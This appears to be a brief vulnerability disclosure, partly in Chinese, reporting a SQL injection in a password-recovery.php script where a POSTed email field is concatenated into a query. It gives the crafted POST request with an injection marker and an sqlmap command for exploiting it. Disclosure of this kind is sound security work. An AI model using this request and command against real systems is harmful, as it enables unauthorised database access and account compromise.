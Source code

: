 password-recovery.php文件中$femail直接拼接到sql语句中，而$femail是通过POST请求直接获取的
![alt text](password-recovery.php%20sql%20inject-2.png)


POST REQUEST

POST /password-recovery.php HTTP/1.1
Host: test.jc
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Type: application/x-www-form-urlencoded

send=aaa&femail=asd*

SQLmap run
sqlmap -r post.txt


![alt text](password-recovery.php%20sql%20inject-1.png)
